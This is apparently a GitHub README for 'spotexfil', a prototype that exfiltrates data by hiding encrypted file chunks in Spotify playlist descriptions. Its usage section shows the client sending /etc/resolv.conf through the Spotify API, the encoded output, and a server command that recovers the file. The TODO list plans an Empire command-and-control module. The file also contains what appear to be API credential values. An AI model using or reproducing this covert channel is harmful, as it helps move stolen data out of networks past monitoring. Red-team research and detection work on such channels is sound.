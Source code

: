 # spotexfil (status: MVP)
A simple attempt to exfiltrate data using spotify API, 300 bytes at a time.

We can read a mini file (payload) and encode it inside a playlist description field via Spotify API.
Really MVP/prototype, not meant for large files.

# Pre-requisite
You need to register the app with Spotiy at https://developer.spotify.com/dashboard/

Then, after using the first time, the following environment variables should be set such as:
```
SPOTIFY_USERNAME=YourSpotifyUsername
SPOTIFY_CLIENT_SECRET=0de477a0733545a1a40e2e35d7b9d897
SPOTIFY_CLIENT_ID=3a292c314830b8611963ac4fb2f29da1b
SPOTIFY_REDIRECTURI=http://localhost/callback
```

# Usage

Using /etc/resolv.conf as payload:

```
$ ./spotexfil_client.py -f /etc/resolv.conf
[*] Data cleared
"0614b19d74be941ac3a89fdcbc33d3ebc62cb996f574a1b3cb95867c1db90b87ca154ad38151a25e09d2b9429f66ad8d00afb005b1e257f89c27b030ca46ae3b6856574d3bc40476fd3c0703618f4ac4810dc59b7797dc1a873252de1017fd12205e99458eb0f40c4fa98db36cc972ec3c7f008541450e8269679fd6e54cf09ac432e002fdfb3be3ae85fa89373e0ad3c68af7bde50
	[*] Creating inpayloadwetrust0
b5118c7d5947d2f1a467069e3f2796b3859015741622226f58609dcee056954b42520dfeb8d09c1280fffb1e2c7178c3d46e0203b6284e14d08868e75bef729b939fee6e4edcd0e463f5b2797b40640eabf8940bfb8e82bde4bed531310b6e496066bad02a1a7bc4c854ef070a14166a6cd55f0c8f17c9c9ffaf79bef38c3dfaf6fd9d0ef1baf62589aad3c39bafd768cbe7ee48a10b
	[*] Creating inpayloadwetrust300
728a9be5127a45b5aa4b1a6f6cbd216f1e0ae80d843ad2f15a07ae721773eb529ea64963557196ba8bd29eca370ff3a8ae6d32f67251edb078619a4d97db332ccf432402a3a45b5675b82e6f8"
	[*] Creating inpayloadwetrust600
[*] Data encoded and sent
```

Receiving from a far:

$ ./spotexfil_server.py -r
```
#
# macOS Notice
#
# This file is not consulted for DNS hostname resolution, address
# resolution, or the DNS query routing mechanism used by most
# processes on this system.
#
# To view the DNS configuration used by this system, use:
#   scutil --dns
#
# SEE ALSO
#   dns-sd(1), scutil(8)
#
# This file is automatically generated.
#
domain nyc.rr.com
nameserver 172.16.0.1
```

# TODO
* Working on Empire C2C module
* move from XXTEA crappy easy crypto to asymmetric (working in separate branch)
* peer-review from a real Python developper would help :P
* build chat system, adding a realtime listener component into spotexfil_server.py

